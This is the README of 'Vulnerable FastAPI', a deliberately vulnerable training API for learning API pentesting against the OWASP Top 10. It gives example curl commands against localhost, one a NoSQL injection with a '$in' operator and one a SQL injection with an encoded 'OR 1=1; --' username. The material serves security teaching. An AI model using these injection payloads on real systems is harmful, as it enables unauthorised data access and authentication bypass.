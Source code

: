 ![Vulnerable FastAPI Logo](./static/img/logo.png "Vulnerable FastAPI Logo")
<p align="center">
    <em>Vulnerable FastAPI, compliant to <a href="https://owasp.org/www-project-top-ten/">OWASP TOP 10: 2021</a></em><br><b> ⚠️ Under Development ⚠️</b>
</p>

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

---

### Current exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```

NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```

SQLi
```
$ curl -s "http://$HOST:$PORT/select?username=%22%20OR%201%3D1%3B%20--%20" | jq
```

---

## Thanks
 - [FastAPI](https://tiangolo.fastapi.com)
 - [Faker](https://github.com/joke2k/faker)
 - [aioSQLite](https://github.com/omnilib/aiosqlite)
 - [MontyDB](https://github.com/davidlatwe/montydb)
 - [OWASP Top 10](https://owasp.org/www-project-top-ten/)


